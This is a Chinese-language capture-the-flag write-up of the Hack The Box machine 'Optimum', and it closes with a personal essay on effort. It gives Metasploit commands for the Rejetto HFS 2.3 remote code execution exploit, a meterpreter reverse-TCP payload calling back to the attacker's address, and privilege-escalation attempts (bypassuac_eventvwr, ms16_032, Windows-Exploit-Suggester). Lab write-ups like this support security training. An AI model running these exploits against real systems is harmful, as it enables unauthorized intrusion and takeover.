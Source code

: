 ```yaml
---
title: Optimum（win64-msf提权）
categories:
- training
tags:
- training
- windows
---
```

Optimum（win64-msf提权）

参考资料：https://isroot.nl/2018/06/25/hack-the-box-write-up-optimum/

```
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## 命令
```
searchsploit hfs
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution

msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.10.10.8
set LHOST 10.10.14.17
set SRVHOST 10.10.14.17 
run

background
```
**sysinfo**
```
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```
## 提权
```
search suggester
use post/multi/recon/local_exploit_suggester

[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.

use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST tun0
set LHOST tun0  不知道为什么要设置两遍，才能成功设置为该网卡
run
失败，用户不是admin组，不能提权

use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set LHOST tun0
set LHOST 10.10.14.17
set SESSION 1
show options
run
提权依然失败。

shell
whoami
optimum\kostas

net user
Administrator            Guest                    kostas
```
## writeup

job.rc
```
use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.10.10.8
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.17
set SRVHOST 10.10.14.17 
run
```
`msfconsle -r job.rc`

用sysinfo命令，可以发现`Meterpreter     : x32/windows`，而目标系统是64位。

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-07/4.PNG)
没有发现任何可用exp，可用来提权。
获得了SESSION 4
 
search CVE-2016-0099
search CVE-2017-0100
```
search exploit/windows/local
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 1
set LPORT 4445
set LHOST 10.10.14.17
set target 1        target0代表winx86, target1 代表winx64
```
又失败了

## 问题
在meterpreter上传文件的时候，会遇到这种问题：
`core_channel_open: Operation failed: Access is denied`

可能是权限不够
解决方法： 用lcd，getlwd切换本地目录，用cd切换到`C:\Users\kostas\Desktop`

## 再次提权
提权工具：https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/README.md
执行的命令：`python windows-exploit-suggester.py --database 2019-02-07-mssb.xls --systeminfo sys.txt`
 找到可用提权的漏洞，然后msf上传exe到有执行权限的目录，即可得到最高权限。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-07/5.PNG)

## 总结

世界上的事情分为两种：

一种是努力过以后可以做到的；一种是无论自己怎么努力，也是做不到的。

首先要努力，才知道自己的极限。然后坦然接受结果。

```
逆来顺受、随波逐流、浑浑噩噩地也是一辈子，一直卡着自己的脖子往上爬，摔下来痛苦一场，再咬牙继续往上爬，也算一辈子。
　　结果怎么样，谁也不能未卜先知。　　
　　前者觉得后者累、自讨苦吃，后者觉得前者糊里糊涂、可怜。
　　各有各的活法，谁也不能说谁错，可是人得挑一种对得起自己的活法——所谓对得起自己，就是甘当废柴也好，逆水行舟也好，都得坦坦荡荡。
　　愿意活得轻松自在的，看见别人香车宝马、功成名就，得能没有一点艳羡之心，知道自己是怎么回事，所以无论遇到什么事，也绝不会不甘心。至于那些知道自己一定会不甘心的，最好就马上洗干净脸，该干什么干什么去。
　　任何时候，都不会后悔，不会焦虑，不会讨厌自己，不会觉得自己浪费了生命，那就是对得起自己的活法。
```

